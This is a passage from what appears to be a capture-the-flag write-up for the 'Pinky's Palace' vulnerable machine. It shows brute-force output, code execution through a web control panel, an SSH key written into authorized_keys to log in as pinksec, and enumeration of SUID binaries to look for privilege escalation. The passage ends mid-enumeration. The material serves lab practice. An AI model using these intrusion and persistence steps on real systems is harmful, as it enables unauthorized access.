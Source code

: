 ```bash
  
055850: C=302 0 L 0 W 0 Ch "55849"  
  
Total time: 299.6173  
Processed Requests: 100000  
Filtered Requests: 99999  
Requests/sec.: 333.7590  
```

We log in with these three and find a control panel which lets us execute code fully as the `pinksec` user.

![](https://image.ibb.co/eeBOfy/webpage3.png)

In this case I just generate an SSH key and write it into the authorized_keys file, allowing me to SSH straight in!

pinksec  
-------  
```bash  
root@kali:~/panther# ssh -p 5555 pinksec@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
pinksec@pinkys-palace:~$  
```  

Enumeration reveals some interesting SUID files.  We can run `pinksecd` which might allow us to elevate to `pinksecmanagement`.

```bash  
[-] SUID files:  
-rwsr-xr-x 1 root root 78340 May 17 2017 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 48560 May 17 2017 /usr/bin/chfn  
-rwsr-xr-x 1 root root 57972 May 17 2017 /usr/bin/passwd  
-rwsr-xr-x 1 root root 39632 May 17 2017 /usr/bin/chsh  
-rwsr-xr-x 1 root root 163988 Jun 5 2017 /usr/bin/sudo  
-rwsr-xr-x 1 root root 34920 May 17 2017 /usr/bin/newgrp  
-rwsrwx--- 1 pinky pinksecmanagement 7396 May 14 19:06 /usr/local/bin/PSMCCLI  
-rwsr-xr-- 1 root messagebus 46436 Mar 2 00:59 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 5480 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device  
-rwsr-xr-x 1 root root 525932 Mar 1 07:17 /usr/lib/openssh/ssh-keysign  
-rwsr-xr-x 1 pinksecmanagement pinksecmanagement 7508 May 13 23:10 /home/pinksec/bin/pinksecd  
-rwsr-xr-x 1 root root 26504 Mar 7 10:29 /bin/umount  
-rwsr-xr-x 1 root root 39144 May 17 2017 /bin/su  
-rwsr-xr-x 1 root root 68076 Nov 9 2016 /bin/ping  
-rwsr-xr-x 1 root root 38940 Mar 7 10:29 /bin/mount  
```  
Running it with some standard inputs doesn't appear to yield much however.
```bash  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd  
[+] PinkSec Daemon [+]  
Options: -d: daemonize, -h: help  
Soon to be host of pinksec web application.  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd -h  
[+] PinkSec Daemon [+]  
Options: -d: daemonize, -h: help  
Flags Added: -h  
Soon to be host of pinksec web application.  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd -d  
[+] PinkSec Daemon [+]  
```